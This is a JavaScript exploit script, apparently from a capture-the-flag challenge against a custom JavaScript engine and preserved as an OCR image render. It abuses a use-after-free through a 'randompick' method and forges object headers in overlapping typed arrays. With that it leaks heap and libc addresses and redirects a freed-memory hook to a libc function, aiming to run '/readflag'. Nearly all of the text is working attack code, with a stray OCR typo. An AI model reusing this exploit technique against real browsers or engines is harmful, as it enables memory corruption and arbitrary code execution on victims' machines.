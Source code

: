 ```js
overlap1[0] = 20; //ref count
overlap1[1] = 0x41414141; // String length
overlap1[2] = 0x497f93b1; // Metadata

uaf[0] = dummy2;
uaf.randompick();   
uaf.randompick();
uaf.randompick();

let ind = 0;1
for (let i = 0; i < 0x500; i++) {
    let val = read_dword(0x2700 + i*4);
    let val2 = read_dword(0x2700 + i*4 + 4);
    if(val%0x1000 == 0xb20 && val2>>(44) == 0x7){
        console.log("[+] Found!! "+hex(i*4));
        ind = i*4;
        break;
    }
}

up = read_dword(0x1b24);
low = read_dword(0x1b20);

heap_up = read_dword(0x314); 
heap_low = read_dword(0x310);
heap = (((heap_up * 0x100000000) + heap_low) * 0x1000) - 0x18000; 

let dummy4 = new ArrayBuffer(0x48);

// UAF on rem
let rem = new Uint32Array(0x140);

uaf = [rem];

uaf.randompick();
uaf.randompick();
uaf.randompick();

let overlap = new Uint32Array(18);
overlap[0] = 69; //ref count
overlap[1] = 0x001b0d00; // class_id/flags
overlap[0x10] = 0x41414141; // length

heap_addr = heap + 0x1d4b0;
overlap[8] = heap_addr % 0x100000000;
overlap[9] = heap_addr / 0x100000000;
overlap[0xe] = (heap + 0x2f90) % 0x100000000;
overlap[0xf] = (heap + 0x2f90) / 0x100000000;

libc_leak = (rem[1]*0x100000000 + rem[0]) - 0x210b20

console.log("heap: " + hex(heap));
console.log("libc: " + hex(libc_leak));
free_hook = heap + 0x2a8 - 8;

overlap[0xe] = (free_hook) % 0x100000000;
overlap[0xf] = (free_hook) / 0x100000000;

rem[0] = (libc_leak + 0x5c110)%0x100000000;
rem[1] = (libc_leak + 0x5c110)/0x100000000;

rem[8] = 0x6165722f;
rem[9] = 0x616c6664;
```